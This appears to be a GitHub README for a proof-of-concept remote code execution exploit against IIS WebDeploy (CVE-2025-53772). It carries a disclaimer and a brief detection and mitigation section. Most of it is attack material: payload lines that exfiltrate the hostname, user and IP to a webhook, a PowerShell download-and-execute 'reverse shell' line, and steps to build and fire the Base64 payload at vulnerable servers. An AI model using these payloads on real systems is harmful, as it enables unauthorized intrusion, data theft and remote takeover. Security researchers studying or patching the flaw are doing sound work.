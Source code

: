 # CVE-2025-53772 - IIS WebDeploy RCE Exploit

This repository contains a Proof-of-Concept (PoC) exploit for CVE-2025-53772, a Remote Code Execution vulnerability in IIS WebDeploy through unsafe deserialization.
## ⚠️ Disclaimer
This tool is for educational and authorized security testing purposes only. The author is not responsible for any misuse or damage caused by this software. Only use on systems you own or have explicit permission to test.
## 🔧 Quick Setup
### 1. Customize the Payload
Edit the payload in poc.cs at lines 18-19 to specify your target action:
csharp// Replace with your webhook URL and desired payload
```
set.Add("cmd.exe");
set.Add("/c curl -X POST https://webhook.site/YOUR-WEBHOOK-ID -H \"Content-Type: application/json\" -d \"{\\\"hostname\\\":\\\"%COMPUTERNAME%\\\",\\\"user\\\":\\\"%USERNAME%\\\",\\\"ip\\\":\\\"$(curl -s ifconfig.me)\\\",\\\"exploit\\\":\\\"CVE-2025-53772\\\",\\\"timestamp\\\":\\\"%DATE% %TIME%\\\"}\"");
```
### 📋 Payload Examples
Information Gathering (Recommended):
```
csharpset.Add("powershell.exe");
set.Add("-Command \"$hostname=$env:COMPUTERNAME; $user=$env:USERNAME; $ip=(Invoke-RestMethod -Uri 'https://ipinfo.io/ip' -UseBasicParsing); $body=@{hostname=$hostname;user=$user;ip=$ip;exploit='CVE-2025-53772';timestamp=(Get-Date)} | ConvertTo-Json; Invoke-RestMethod -Uri 'https://webhook.site/YOUR-WEBHOOK-ID' -Method Post -Body $body -ContentType 'application/json'\"");
```
Simple Command Execution:
```
csharpset.Add("cmd.exe");
set.Add("/c calc.exe");  // Opens calculator
```
Reverse Shell (Advanced):
```
csharpset.Add("powershell.exe");
set.Add("-Command \"IEX (New-Object Net.WebClient).DownloadString('http://YOUR-SERVER/shell.ps1')\"");
```
### 2. Generate the Exploit Payload
The GitHub Action will automatically compile the PoC and generate the Base64-encoded payload:

Push your changes to trigger the GitHub Action
Navigate to Actions tab in your repository
Click on the latest workflow run
Find the generated payload in the console output:

<img width="1565" height="623" alt="GitHub Actions payload output" src="https://github.com/user-attachments/assets/512a6037-0ab6-4f1c-b02b-364996c315ee" />
3. Deploy the Exploit
Use the generated Base64 payload against the vulnerable IIS WebDeploy endpoint:
<img width="856" height="255" alt="Payload deployment example" src="https://github.com/user-attachments/assets/88b147cd-fae7-4034-9622-5af3a39b2bec" />
🎯 Vulnerability Details

# CVE ID: CVE-2025-53772
Affected Software: IIS WebDeploy (multiple versions)
Vulnerability Type: Unsafe Deserialization leading to RCE
Attack Vector: Remote, unauthenticated
Severity: Critical

## 🛠️ Manual Compilation (Optional)
If you prefer to compile locally instead of using GitHub Actions:
bash# Windows with .NET Framework
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe poc.cs
poc.exe > payload.txt

## Or with Visual Studio
csc poc.cs
poc.exe
📡 Setting Up a Webhook

Go to webhook.site to get a free webhook URL
Replace YOUR-WEBHOOK-ID in the payload with your unique ID
Monitor incoming requests to see exploit execution results

## 🔍 Detection & Mitigation
Detection:

Monitor for unusual BinaryFormatter deserialization activities
Look for suspicious process spawning from IIS worker processes
Network monitoring for unexpected outbound connections

Mitigation:

Update IIS WebDeploy to the latest patched version
Implement input validation and sanitization
Use allowlists for deserialization types
Deploy network segmentation and monitoring

## 📚 References

CVE-2025-53772 Details
Microsoft Security Advisory
NIST Vulnerability Database

## 🤝 Contributing
Contributions are welcome! Please:

Fork the repository
Create a feature branch
Submit a pull request with detailed description

## 📄 License
This project is licensed under the MIT License - see the LICENSE file for details.

Remember: Always obtain proper authorization before testing on any systems you do not own.
